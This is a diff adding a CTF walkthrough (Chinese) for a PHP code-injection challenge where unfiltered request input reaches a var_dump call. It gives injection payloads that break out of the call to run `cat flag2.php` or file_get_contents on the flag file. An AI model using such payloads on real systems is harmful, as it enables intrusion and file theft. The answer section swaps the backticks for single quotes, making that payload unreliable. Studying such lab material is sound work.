

Before and after one commit to wonderkun/CTF_web, an MkDocs documentation site: the page built from docs/web100/web100-5.md, in a window 1280 px wide and 1400 px high, scrolled down 600 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
完善web100-5

````diff
--- a/docs/web100/web100-5.md
+++ b/docs/web100/web100-5.md
@@ -29,3 +29,35 @@ $GLOBALS：引用全局作用域中可用的全部变量
 ```
 [服务器链接]/index1.php?args=GLOBALS
 ```
+
+
+# 题目二：
+题目链接：（右键下载即可）
+
+[index2.php](https://raw.githubusercontent.com/wonderkun/CTF_web/master/web100-5/index2.php)
+[flag2.php](https://raw.githubusercontent.com/wonderkun/CTF_web/master/web100-5/flag2.php)
+## 分析
+$a是输入的hello值，然而并没有对hello内容进行限制
+
+这里可以作为突破点进行注入
+```
+var_dump(  [内容]  );
+```
+让[内容]为```1);echo `cat flag2.php`;//```即
+```
+var_dump(1);
+echo 'cat flag2.php';
+```
+也可以让[内容]为```file_get_contents('flag2.php')```
+## 知识点
+$_REQUEST：
+```
+默认情况下包含了 $_GET，$_POST 和 $_COOKIE 的数组。
+```
+## 答案
+```
+[服务器地址]/index2.php?hello=1);echo 'cat flag2.php';//
+```
+```
+[服务器地址]/index2.php?hello=file_get_contents('flag2.php')
+```
````
